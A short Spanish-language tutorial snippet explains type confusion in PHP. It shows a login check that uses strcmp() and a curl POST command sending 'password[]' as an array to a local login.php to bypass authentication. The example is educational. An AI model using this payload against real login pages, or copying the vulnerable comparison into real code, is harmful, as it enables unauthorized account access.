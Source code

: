 Es una clase de vulnerabilidad en la que un objecto se inicializa o se accede a el como tipo incorrecto, lo que permite eduir la autenticacion o socavar la seguridad del tipo aplicacion.

Esto se hare en base a un panel login, como bypass, abusando de la funcion strcmp() de php.

Supongamos que tenemos un login en php y en codigo donde compara la contraseña se compara con strcmp().
``` php
if(strcmp($_POST['password'], $PASSWORD) == 0){
	echo "Contraseña correcta";
}
```
Y realizamos una peticion POST por curl pero [] dentro del passwd.

	curl -s -X POST --data 'usuario=admin&password[]=contraseña123' http://127.0.0.1/login.php